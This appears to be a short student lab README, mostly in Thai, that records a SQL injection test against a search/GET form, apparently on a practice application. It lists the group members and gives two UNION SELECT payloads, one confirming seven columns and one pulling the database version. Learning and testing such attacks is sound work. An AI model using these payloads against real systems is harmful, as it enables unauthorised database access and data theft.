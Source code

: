 
## SQL Injection (Search/GET) ##

รายชื่อกลุ่ม 
1. Mr.Wisanu  Sameejeang
2. Mr.Tossaporn Hansing
3. Mr.Sirimongkol wongfu


ทดสอบการ Search/Get)

โดยการกด Seacrch ก่อนแล้วดูการแสดงผล

<br>![pic1](/pic/sqli1_1.jpg)<br>

ทดสอบช่องโหว่
โดยการใส่ค่า  'union select 1,2,3,4,5,6,7 -- -
<br>![pic2](/pic/sqli1_2.jpg)<br>

ทดสอบโดยการหา version databases โดยการใส่ค่า 'union select 1,2,3,4,version(),6,7 -- -
<br>![pic3](/pic/sqli1_3.jpg)<br>

